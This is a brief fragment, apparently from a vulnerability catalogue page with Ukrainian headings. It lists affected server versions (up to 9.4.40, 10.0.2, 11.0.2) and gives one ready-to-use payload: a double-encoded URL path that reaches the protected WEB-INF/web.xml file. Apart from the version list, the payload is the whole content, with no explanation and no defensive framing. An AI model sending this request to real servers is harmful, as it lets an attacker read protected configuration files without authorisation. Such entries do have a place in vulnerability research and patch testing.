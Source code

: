 <languages />

Постраждала версія
------------------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml